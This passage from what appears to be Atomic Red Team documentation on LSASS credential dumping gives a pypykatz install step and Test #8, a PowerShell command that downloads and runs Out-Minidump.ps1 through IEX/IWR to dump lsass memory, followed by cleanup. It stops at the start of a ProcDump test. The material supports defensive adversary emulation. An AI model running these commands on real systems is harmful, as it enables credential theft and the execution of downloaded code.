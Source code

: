 ```cmd
```
##### Get Prereq Commands:
```cmd
pip install pypykatz
```




<br/>
<br/>

## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1
The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:TEMP\lsass_*.dmp.

Author of Out-Minidump: Matthew Graeber (@mattifestation)

**Supported Platforms:** Windows


**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
try{ IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1') -ErrorAction Stop}
catch{ $_; exit $_.Exception.Response.StatusCode.Value__}
get-process lsass | Out-Minidump
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe
